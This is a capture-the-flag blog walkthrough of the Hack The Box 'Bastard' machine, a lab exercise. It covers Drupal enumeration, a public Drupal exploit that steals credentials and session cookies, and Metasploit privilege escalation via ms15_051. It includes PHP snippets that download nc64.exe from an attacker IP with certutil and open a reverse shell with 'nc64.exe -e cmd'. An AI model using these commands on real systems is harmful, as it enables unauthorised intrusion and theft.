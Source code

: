 ```yaml
---
layout: post
title: "HTB Bastard: Walkthrough"
date: 2024-12-03 11:00:00 +0000
categories: [HTB]
tags: [HTB, Drupal, CVE]
image:
    path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Bastard/bastard.png
---
```


![image](https://github.com/partyh4t/Write-ups/assets/114421293/3061d92f-1f6d-4189-a9e4-e510b14e004c)

- We're first met with a web application running `Drupal` that leaks a useful directory through the `robots.txt` file.
- The file contains a version# for the current Drupal installation that is running on the web server.
- We're then able to leverage that version number to exploit a CVE to gain credentials and eventually RCE.
- Finally, once the machine was compromised, we exploited `ms15_051` to gain Administrative Privileges.

### 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Exploitation](#3-exploitation)
4. [Privilege Escalation](#4-privilege-escalation)

### 1) Scans
![image](https://github.com/partyh4t/Write-ups/assets/114421293/900fd3f7-bc43-414b-a7d1-1aa87ec1381f)

### 2) Web Enumeration
Heading to the webpage, we're met with Drupal
![image](https://github.com/partyh4t/Write-ups/assets/114421293/df3dfa47-769b-401c-9c4e-9651018415bd)


With some testing, and checking the robots.txt, we notice:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/22d60b3d-fb7e-4e66-bee5-a207dfdc103f)


As we can see, we now know the exact version number of the CMS being used.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/cbecd508-9201-4196-9d28-40c0b13ae57f)

### 3) Exploitation
With some research "Drupal 7.54 exploit" we instantly are met with:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/40c9887d-fbc0-418f-8cd6-7f422b59ff2f)


We used the exploit, but we had to alter some of the code:
Originally I only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![image](https://github.com/partyh4t/Write-ups/assets/114421293/acb9b252-ca1b-40f5-9e2c-87d60107bcc0)


So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.

![image](https://github.com/partyh4t/Write-ups/assets/114421293/735785d0-003e-4a3d-8f1c-9c81b50a0bbc)


What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions that show that /rest is also a possible endpoint.

With that fixed:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/39aa305d-3e55-44c1-9176-a1fbad85525b)


Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/0103ff84-1d65-4b26-aa10-de9d330cb625)


Also the session information:

![image](https://github.com/partyh4t/Write-ups/assets/114421293/38e59117-7a55-4f2c-bdb2-fbd88c95cf6a)


So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/6ea28526-0a5b-4f0a-bfcf-23d67958be05)


Here, we put the session names value into the name section, and the id into the value:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/a2f6a602-467e-4020-b6ad-035a5220eb99)


I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it manually.

Going to be following this:
[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce)

Note: this will only work for versions of Drupal before V8.


So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

### 4) Privilege Escalation
Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
